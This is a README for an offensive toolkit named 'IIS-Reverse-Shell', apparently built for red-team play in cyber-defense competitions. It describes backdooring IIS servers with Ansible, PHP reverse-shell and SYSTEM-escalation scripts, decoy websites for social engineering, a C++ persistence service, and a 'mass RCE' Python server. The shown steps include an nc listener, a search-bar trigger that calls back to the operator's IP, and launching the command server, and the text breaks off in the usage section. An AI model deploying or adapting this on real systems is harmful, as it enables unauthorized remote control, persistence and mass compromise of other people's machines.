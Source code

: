 # IIS-Reverse-Shell

## Overview
This project demonstrates advanced penetration testing techniques against IIS web servers, focusing on reverse shell deployment, privilege escalation, and persistence mechanisms. It includes:

- **Ansible Playbooks**: Automate the deployment and configuration of IIS servers across multiple targets
- **PHP Scripts**: Facilitate reverse shell functionality and SYSTEM privilege escalation
- **Website Content**: Professional-looking HTML and assets for social engineering
- **Persistence Mechanisms**: C++ Windows service for maintaining long-term access
- **Mass RCE Capabilities**: Python server for coordinated command execution across multiple compromised hosts

## Repository Structure

<pre>IIS-Reverse-Shell/
├── Ansible/
│   ├── iis_setup.yml
│   ├── inventory.yml
│   └── ansible.cfg
├── Images/
│   ├── UB_Lockdown/
│   ├── IRSEC/
│   └── Empire State Health/
├── PHP/
│   ├── contact.php
│   ├── search.php
│   └── php.ini
├── Persistence/
│   ├── Main.cpp
│   ├── Service.h
│   ├── Service.cpp
│   ├── Persistence.h
│   ├── Persistence.cpp
│   └── IISManagerService.exe
├── Website/
│   ├── UB_Lockdown/
│   │   ├── UB_Lockdown.html
│   │   ├── button.js
│   │   └── web.config
│   ├── IRSEC/
│   │   ├── IRSEC.html
│   │   ├── button.js
│   │   └── web.config
│   └── Empire State Health/
│       ├── Empire State Health.html
│       ├── button.js
│       └── web.config
└── server.py
</pre>

### Directory Breakdown
- **`Ansible/`**: Contains playbooks and inventory files for automating server setup.
- **`Images/`**: Directory with images used in the website.
- **`PHP/`**: Contains the PHP script for the reverse shell.
- **`Persistence/`**: Contains the C++ executable service that maintains persistence on the server.
- **`Website/`**: HTML and CSS files for the website's frontend.
- **`server.py`**: A Python Client that allows for mass remote command execution.

## Setup Instructions

### Prerequisites
- **Ansible**: Installed on the control machine.
- **Windows Server**: With WinRM running and enabled.
- **Network Configuration**: Ensure the server is accessible and that required ports are properly configured.
- **Required Packages**:
  ```sh
  sudo apt install git
  sudo apt install software-properties-common
  sudo add-apt-repository ppa:ansible/ansible --yes --update
  sudo apt install ansible
  sudo apt install python3-pip
  ansible-galaxy collection install ansible.windows community.windows
  pip install inquirerpy
  pip install pywinrm
  ```

### Steps

## 1. Clone the Repository
```bash
cd ~
git clone https://github.com/Lcdemi/IIS-Reverse-Shell
cd IIS-Reverse-Shell/Ansible
```

## 2. Configure Ansible Inventory
Edit the inventory.yml file to include your server's details:

```yaml
all:
  hosts:
  children:
    winserver:
      hosts:
        [IP_1]:
        [IP_2]:
        ...
    win10:
      hosts:
        [IP_1]:
        [IP_2]:
        ...
  vars:
    ansible_user: your_username
    ansible_password: your_password
    ansible_connection: winrm
    ansible_port: 5985
    ansible_winrm_transport: ntlm
    ansible_winrm_server_cert_validation: ignore
```

## 3. Configure Competition Name
Edit the iis_setup.yml file to include the name of the Competition:

```yaml
 name: IIS Reverse Shell Server Configuration
  hosts: all
  gather_facts: true
  vars:
    Competition: "[Your Competition Name]"
```

## 4. Run the Ansible Playbook
To set up the IIS server and deploy the website, execute the following command:

```sh
ansible-playbook -i inventory.yml iis_setup.yml
```

## 5a. Spawn a Reverse Shell (Singular Execution)
To spawn a reverse shell, follow these steps:

1. **Set Up a Listener**: On your machine, start a listener using a tool like `netcat`. For example:
   ```bash
   nc -lvnp [PORT]
   ```
2. **Trigger the Reverse Shell**: Once the deployment is complete, open your browser and navigate to: http://your_server_ip/. On the deployed website, locate the search bar. Enter the following command:
    ```html
    search [YOUR_IP] [PORT]
    ```
    Replace `[YOUR_IP]` with your machine's IP address and `[PORT]` with the port you are listening on (e.g., `8080`).

3. **Gain Access**: Once the command is executed, a system shell will be spawned, and you will have access to the target machine.

## 5b. OS Command Injection (Mass Execution)
For large-scale operations or testing multiple targets simultaneously, use the included `server.py` Python script to automate command execution across multiple compromised hosts.

### Server.py Features
- **Mass RCE**: Execute commands on multiple targets simultaneously
- **Concurrent Processing**: Handle multiple connections efficiently
- **Command Queueing**: Queue commands for execution across all connected hosts
- **Real-time Output**: Live output from all connected systems
- **Session Management**: Track active reverse shell sessions

### Usage

#### Starting the Mass RCE Server
```bash
# Start the RCE server on a specific port
python server.py -p 8888

# Or use default port 8888
python server.py
